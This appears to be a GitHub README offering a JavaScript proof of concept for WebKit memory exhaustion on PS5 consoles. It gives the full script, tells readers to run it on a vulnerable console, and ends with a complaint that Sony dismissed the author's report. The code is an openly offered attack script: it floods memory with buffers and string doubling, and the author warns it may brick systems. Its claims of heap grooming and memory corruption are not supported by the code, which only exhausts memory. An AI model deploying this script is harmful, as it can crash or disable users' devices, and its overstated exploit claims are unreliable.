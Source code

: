 https://debvt.github.io/Wm/


**Author:https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09**
I'm self taught I don't know any one in the community if you want to use this use it but credit me.
# WebKit Memory Exhaustion PoC

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I have been working on. The current iteration works but still needs to be fully exploited. Below is the JavaScript code that shows how it operates, along with explanations of each step.

## How it Works
The code below follows five key steps:

1. **Heap Initialization**: Allocates memory in a controlled manner.
2. **Heap Grooming**: Manipulates memory to create gaps for the exploit.
3. **Memory Exhaustion**: Continuously allocates and clears memory to exhaust resources.
4. **Payload Execution**: Executes the payload to perform memory corruption.
5. **Exploit Execution**: Runs the steps in sequence to trigger the memory exhaustion.

## Code
```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    //alert("Int heap");
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    //alert("groom heap");
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap
    
    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

performExploit();
```
##**Instructions**

1. Copy the above code and run it in a Exploitable PS5(Works Untill guess 9.60?) this might not be useful in ps4


2. Be mindful that this is a PoC and should be used for educational purposes only.


3. Further testing is required to fully understand this vulnerability.

4.Place This code dosent contain any payload you will need your own

Disclaimer

This PoC is for educational purposes only. The author is not responsible for any misuse of this code.
##**IM NOT LIABLE TO ANY DAMAGES CAUSED BY THIS POC OR ANY OTHER USE OF IT THIS CAN BRICK AND MIGHT BRICK YOUR SYSTEM IF LEFT UNEDITED **
##A Message to Sony 
Sony I have reported this and got dismmised and I have provided enough proof it with that unreleased PoC it's not my fault that even after 6months you didn't fix it I have gave you more then enough to fix this is to hopefully encourage you to fix it 
